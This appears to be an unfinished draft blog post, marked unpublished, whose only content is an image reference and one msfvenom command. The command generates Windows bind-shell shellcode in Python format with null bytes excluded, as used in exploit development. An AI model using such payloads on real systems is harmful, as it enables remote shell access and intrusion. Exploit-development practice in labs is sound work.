 ```yaml
---
published: false
---
```


## A New Post

    msfvenom -p windows/shell/bind_tcp -b '\x00' -f python -a x86



